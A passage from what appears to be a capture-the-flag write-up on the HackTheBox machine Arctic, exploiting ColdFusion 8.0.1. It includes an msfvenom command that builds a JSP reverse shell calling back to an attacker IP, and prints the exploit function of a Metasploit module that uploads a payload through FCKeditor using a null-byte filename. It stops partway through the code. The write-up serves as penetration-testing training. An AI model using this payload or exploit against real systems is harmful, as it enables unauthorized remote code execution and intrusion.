 A little more examining of `Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)` suggests it’s for a different version of CF. I’ll also rule out `Adobe ColdFusion 2018 - Arbitrary File Upload`, as it relies on posting to `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm`, and I can’t find a `cf_scripts` directory on Arctic.

That leaves two vulnerabilities to explore further.

## Shell as tolis

### Generate Payload

With upload to webserver vulnerabilities, typically I would go with a CFM webshell to get a foothold, and then get a shell from there. But this box is so painfully slow, that I want to get away from CF as quickly as possible. JSP payloads typically work on CF, so I’ll create one with `msfvenom`:

```

root@kali# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.47 LPORT=443 -f raw > shell.jsp
Payload size: 1496 bytes

```

### Path 1: Unauthenticated RCE

#### Exploit Analysis

The most direct path to RCE on Arctic is via the Execution vulnerability:

```

ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                       | cfm/webapps/16788.rb

```

Especially for OSCP practice, being able to read a Metasploit script and understand it is a critical still. I’ll open the script with `searchsploit -x cfm/webapps/16788.rb`. The most interesting path is the `exploit` function:

```

def exploit

    page  = rand_text_alpha_upper(rand(10) + 1) + ".jsp"

    dbl = Rex::MIME::Message.new
    dbl.add_part(payload.encoded, "application/x-java-archive", nil, "form-data; name=\"newfile\"; filename=\"#{rand_text_alpha_upper(8)}.txt\"")
    file = dbl.to_s
    file.strip!

    print_status("Sending our POST request...")

    res = send_request_cgi(
        {
            'uri'           => "#{datastore['FCKEDITOR_DIR']}",
            'query'         => "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
            'version'       => '1.1',
            'method'        => 'POST',
            'ctype'         => 'multipart/form-data; boundary=' + dbl.bound,
            'data'          => file,
            }, 5)

    if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
        print_status("Upload succeeded! Executing payload...")

        send_request_raw(
```